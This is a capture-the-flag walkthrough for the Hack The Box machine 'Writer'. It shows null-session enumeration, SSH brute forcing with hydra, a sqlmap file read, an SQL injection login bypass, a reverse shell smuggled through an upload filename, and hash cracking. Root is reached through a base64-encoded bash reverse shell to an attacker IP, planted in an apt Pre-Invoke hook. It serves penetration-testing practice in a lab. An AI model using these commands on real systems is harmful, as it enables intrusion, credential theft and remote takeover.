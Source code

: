 # HTB Writer

## Intro

I noticed that there are 2 approaches to gaining access with this box.
The first is using XSS (Cross Site Scripting) and the other is leveraging Samba services then brute forcing.
I'll start with basic enumeration first and then branch off into 2 directions to get the user flag.


### Enumeration
As with most, if not all htb machines, we add writer.htb to the hosts file on the attacking machine.

![Step 0](screenshots/hosts-file.png "Setup hosts file")

Initial scan with nmap shows ports 22, 80, 139 and 445 are open.

` nmap -Pn -p- -vv -sS -A -oA all-ports writer.htb`

![Step 1](screenshots/nmap-scan.png "Nmap Scan")

## Samba / Brute Force Approach

### Enumeration

First the attacker attempts to connect to writer.htb using RpcClient. 
Using guest credentials and no password, the attacker can gain access and check for users on the victim.

```buildoutcfg
rpcclient -U "" writer.htb
# Enter blank password
enumdomshare
```

![Step 2.1](screenshots/rpcclient-user.png "Rpcclient User")

### Foothold / User
Now that the attacker has a user for the system, they can just use the famous rockyou.txt password list.
This method will take a long time, but it is doable. 
```buildoutcfg
hydra -l <stole-username> -P /path/to/rockyou.txt ssh://writer.htb -VV -t 60
```

## XSS Approach

### Enumeration
This approach is more involved.
First, run a dirb, wfuzz, or something similar to find directories and files on port 80.

![Step 2.2](screenshots/wfuzz.png "wfuzz")

Looks like 'administrative' gives a 200 OK response.
Visiting http://writer.htb/administrative shows a login splash page.
Use 'sqlmap', the attack can also pull any files off the victim.

```buildoutcfg
$ cat request.txt                   
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/administrative
Upgrade-Insecure-Requests: 1

uname=demo&password=demo
```

Since our NMAP scan tells shows this is Apache 2.4.41, pull the apache2 config file first.

```buildoutcfg
sqlmap -r request.txt --file-read=/etc/apache2/sites-enabled/000-default.conf
```

The config file shows where the apache files are stored on the server (/var/www/writer.htb/).

```
$ cat files/_etc_apache2_sites-enabled_000-default.conf 
# Virtual host configuration for writer.htb domain
<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

Back to logging in, the attacker can add `admin' OR '1'='1` to username and login.
From here, the attacker can add / modify stories.
Any image uploaded is stored in `/var/www/writer.htb/static/img/`
(learned from apache2 default config and trial and error).


### Foothold
Intercept the traffic (I use OWASP Zap but others use Burp Suite), and modify the payload being sent to the victim.
The attacker is able to add anything in the filename file so long as `.jpg` exists in the name.
They can insert a reverse shell in file name, and execute it under the content.
Use the information

Note: There is an example of this in payloads/foothold.py.
I store the payload in /dev/shm/ instead of /var/www/writer.htb/static/img/.

![Step 3](screenshots/xss-injection-point.png "Xss Injection Point")

### User

Check for users on the server.

```buildoutcfg
# Look for users with IDs greater than or equal to 1000
cat /etc/passwd
```

Now that the attacker has a shell, they will discover this site is using Django.
Search for the Django config file (settings.py) and find out where the database creds are located.

```buildoutcfg
# Find SQL DB CREDS
find /var/www -type f -name settings.py 2>/dev/null
# Read settings.py
cat /var/www/writer2_project/writerv2/settings.py
# Read the mysql config.
cat /etc/mysql/my.cnf
```

Once the attacker is in mysql, they can grab the hash for the user on the server.
Use the famous rockyou.txt and hashcat to crack the password.

```
hashcat -m 10000 -o cracked.txt hash.txt rockyou.txt
```

Use the password to login via SSH and grab that user flag.

```buildoutcfg
cat ~/user.txt
```

### Privilege Escalation

Either path (Bruteforce or XSS) you took should have brought you here.
Look at the groups the user belongs to.
There are 2 extra groups that aren't default (filter and smbgroup).
Use 'find' to locate any file with the group filter associated with it.
![Step 3](screenshots/priv-esc-1.png "Priv Esc 1")

A quick look at /etc/postix/disclaimer shows that we may be able to fit a reverse shell in it.
The next person to receive it will execute that code.
Copy /etc/postix/disclaimer to /dev/shm/ (so we don't interfere with other htb guests) and modify it to work locally.
Create your own mail.py or use the one supplied in vulnerable_files here.
Open a listener on the attacking machine and execute mail.py.

```buildoutcfg
# On attacking machine
ncat -nv4lp 4444

# On victim.
# The files mail.py and evil_disclaimer should be under /dev/shm/ together.
cd /dev/shm
python3 mail.py
```

Now the attacker is active as the other user on the system.
Take the ssh key from this user and reenter with SSH.

```buildoutcfg
ssh john@writer.htb -i john/.ssh/id_rsa
```

Check out the groups again.
![Step 3](screenshots/priv-esc-2.png "Priv Esc 2")

The attacker can inject another reverse shell into this directory and it will be executed with root permissions.
```buildoutcfg
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDYvMTAwNDQgMD4mMSIK | base64 -d | bash"};'> pwn
```

After executing the above command, open a listener on the attacking machine and wait. 

Note: You may have to reset the machine if it's not working.
Make sure your payload works with normal user persions before constantly reseting the box.

Once, the shell pops, go get that /root/root.txt flag.